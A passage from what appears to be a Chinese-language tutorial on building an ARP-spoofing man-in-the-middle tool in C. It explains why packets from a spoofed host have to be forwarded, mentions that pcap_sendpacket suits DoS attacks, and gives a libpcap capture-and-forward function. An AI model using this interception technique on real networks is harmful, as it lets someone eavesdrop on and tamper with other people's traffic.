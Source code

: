>一点自己的说明：其实libpcap也有一个发包的函数，pcap_sendpacket()函数，是要先完全构建好packet，再用这个函数全部发送出去，我个人在尝试的过程中，ARP欺骗包用这个发送没有问题，但是在转发的过程中出现了一些问题，至于具体的原因我还没有想清楚，到是发包比较专业的libnet实现了这个目标，后来就使用libnet包了。然而pcap_sendpacket()函数仍然有着发包非常迅速的特点，这使得在有些问题上(比如Dos攻击)就非常适合使用它。

## 数据包的转发

这里我们采用，多线程抓包，并在抓到包之后迅速处理并转发。

因为数据包是转瞬即逝的，如果捕获一个，处理，再捕获下一个的话可能会漏掉一些数据包，降低我们的效率。

可能有人会问到，为什么非要先ARP欺骗呢，直接抓包并转发不就好了吗？

这里要明确，“抓包”是复制一份包，而不是截获包，而现在被ARP欺骗的主机已经断网的情况下，我们复制它的包帮他转发，这样才是经过我们的手帮他实现上网。

原理并不难，对于发来的包进行分析，确认是目标主机发来的，我们就帮他转发到网关，确认是网关发来的，我们就帮他转发到目标主机

打开设备并抓包的函数：

```c
int forward_packet(void *ARG) {

  /* defination */
  MITM_info arg = *(MITM_info *)ARG;
  char *dev = arg.dev;
  char errbuf[PCAP_ERRBUF_SIZE];
  struct bpf_program filter;
    
  /* start dev */
  dev = pcap_lookupdev(errbuf);
	if (dev == NULL) {
    printf("%s\n", errbuf);
    exit(1);
  }
  arg.dev = dev;

  /* open device */
  pcap_t *handle = pcap_open_live(dev, 65535, 1, 0, errbuf);
  if (!handle) {
    printf("device open error.\n");
    exit(1);
  }

  /* compile filter */
  pcap_compile(handle, &filter, arg.filter, 1, 0);  
  pcap_setfilter(handle, &filter);

  /* capture packets */
  pcap_loop(handle, -1, getPacket, (u_char *)&arg);

  /* end */
  pcap_close(handle);

  return 0;
}
```

